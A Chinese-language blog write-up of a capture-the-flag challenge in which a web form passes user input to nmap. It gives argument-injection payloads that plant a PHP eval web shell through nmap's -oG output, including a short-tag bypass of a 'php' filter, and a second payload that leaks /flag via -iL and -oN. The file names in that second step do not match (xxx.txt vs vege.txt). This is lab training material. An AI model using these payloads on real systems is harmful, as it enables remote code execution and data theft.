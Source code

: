 ```yaml
---
layout: post
title: '[网鼎杯 2020 朱雀组]Nmap'
subtitle: 'buuctf刷题'
date: 2021-08-27
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 buu刷题
---
```


### 考点

	nmap的一些用法

### 解题过程

> 1.打开题目

![](https://1024861435.github.io/assets/img/朱雀杯nmap1.png)

发现是nmap扫描，输入就namp语法就可以了

> 2.namp语法

		选项 解释
		-oN 标准保存
		-oX XML保存
		-oG Grep保存
		-oA 保存到所有格式
		-append-output 补充保存文件
		选项-oG
		将结果Grep保存。

> 3.构造payload

	' <?php @eval($_POST["hack"]);?> -oG hack.php '

回显hacker... 于是发现测试字符发现过滤了php

于是用短标签

	' <?= @eval($_POST["hack"]);?> -oG hack.phtml '

访问hack.phtml

![](https://1024861435.github.io/assets/img/朱雀杯nmap2.png)

发现有文件，蚁剑连接再根目录下发现flag文件

> 方法二

直接把/flag写到vege.txt
	
	127.0.0.1' -iL /flag -oN xxx.txt '

访问vege.txt

![](https://1024861435.github.io/assets/img/朱雀杯nmap3.png)



